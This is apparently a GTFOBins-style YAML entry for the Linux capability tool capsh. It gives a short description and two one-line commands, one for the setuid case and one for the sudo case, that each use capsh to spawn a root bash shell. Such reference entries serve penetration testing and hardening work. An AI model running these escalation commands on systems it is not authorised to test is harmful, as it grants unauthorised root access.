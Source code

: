 ```yaml
---
description : Linux capability support and use can be explored and constrained with
	      this tool. This tool provides a handy wrapper for certain types of
              capability testing and environment creation. It also provides some
              debugging features useful for summarizing capability state.
functions:
  suid:
    - code:/usr/sbin/capsh --gid=0 --uid=0 -- -c '/bin/bash'
  sudo:
    - code:sudo -u root /usr/sbin/capsh --gid=0 --uid=0 -- -c '/bin/bash'
---
```

